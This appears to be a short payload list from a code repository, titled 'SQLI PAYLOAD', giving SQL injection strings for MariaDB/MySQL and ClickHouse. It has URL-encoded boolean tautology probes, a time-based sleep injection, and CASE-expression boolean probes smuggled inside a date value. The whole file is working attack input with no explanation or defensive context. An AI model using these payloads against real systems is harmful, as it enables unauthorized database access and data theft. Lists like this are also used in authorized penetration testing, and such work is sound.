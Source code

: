 # SQLI PAYLOAD

# MARIADB, MYSQL
||1=1%20limit%201%20%23  
||1=2%20limit%201%20%23  


# CLICK HOUSE
DESC, (select sleep(3)) -- -  
2024-0'||case when 1=1 then 5 else 0x2b end||'-10 23:30:58  
2024-0'||case when 1=2 then 5 else 0x2b end||'-10 23:30:58  
